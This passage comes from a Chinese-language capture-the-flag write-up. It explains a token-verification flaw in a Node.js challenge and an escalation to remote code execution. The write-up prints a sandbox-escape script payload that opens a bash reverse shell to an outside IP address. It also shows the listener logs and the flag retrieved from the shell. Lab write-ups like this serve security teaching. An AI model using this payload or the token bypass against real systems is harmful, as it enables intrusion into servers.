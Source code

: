是更新的`personalBucket`，而`verify`的时候是更新`bucket`，而爬虫爬取的则是`bucket`；如果想可以更新`bucket`，则必须传的`token`可以查询到。

正确的解法是，首先更新可以匹配到的地址，获取token，然后再更新为自己的url那里一次，然后再利用第一次获取的token去verify一次即可。

但实际上的话，第一次获取的token会跳转过去，这个token用一次的话，它的valid就会为false，这样的话最后利用应该是不行的，所以需要第一次的时候bp抓包不让它跳转，这样得到的token就是可以用的了。

但实际上复现的时候发现不抓包直接跳转也可以，迷了很久发现这个：

```js
    const result = await Token.findOne({
        token,
        userId: req.session.userId,
        valid: true
    });
```

不知道是不是出题人故意的，应该写成`token:token`才对，直接`token`就是，如果穿了`token`就永远可以查到数据了，所以出了问题。

rce的话利用https://ha.cker.in/index.php/Article/13563里面的即可。

url写：`http://118.31.168.198:39777/index.html#.oss-cn-beijing.ichunqiu.com/`即可。

然后url那里的index.html写反弹shell：

```js
<script>c='constructor';this[c][c]("c='constructor';require=this[c][c]('return process')().mainModule.require;var sync=require('child_process').spawnSync; var ls = sync('bash', ['-c','bash -i >& /dev/tcp/118.31.168.198/39876 0>&1'],);console.log(ls.output.toString());")()</script>
```



然后按步骤打就可以了，最后请求/bucket即可反弹shell：

```shell
root@iZbp14tgce8absspjkxi3iZ:~# python3 -m http.server 39777
Serving HTTP on 0.0.0.0 port 39777 (http://0.0.0.0:39777/) ...
117.21.200.166 - - [25/Aug/2021 00:02:00] "GET /index.html HTTP/1.1" 200 -
117.21.200.166 - - [25/Aug/2021 00:02:09] "GET /index.html HTTP/1.1" 200 -


root@iZbp14tgce8absspjkxi3iZ:~# nc -lvvp 39876
Listening on [0.0.0.0] (family 0, port 39876)
Connection from [117.21.200.166] port 39876 [tcp/*] accepted (family 2, sport 10556)
bash: cannot set terminal process group (205): Inappropriate ioctl for device
bash: no job control in this shell
app@9a5e3958e052:/app$ cat /flag
cat /flag
flag{ec14c9ee-801c-403d-9fed-b0910b9618b5}
app@9a5e3958e052:/app$

```







# secrets_of_admin
